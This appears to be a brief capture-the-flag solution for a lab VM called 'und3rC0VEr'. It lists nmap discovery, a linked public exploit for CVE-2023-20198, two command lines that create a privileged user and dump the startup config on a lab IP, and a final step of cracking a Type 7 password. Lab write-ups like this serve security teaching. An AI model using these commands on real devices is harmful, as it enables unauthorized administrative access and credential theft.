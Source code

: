 # und3rC0VEr Solution

1. Use nmap to search for the IP address of the VM.

2. Download the exploit script or code it yourself

    [Github](https://github.com/smokeintheshell/CVE-2023-20198)

3. Run the exploit script

    ```bash
    python 198.py -t 192.168.204.2 -a -u r0hxn -p pwned

    python 198.py -t 192.168.204.2 -e "sh startup-config"

    ```

4. Crack the Type 7 password using an online tool
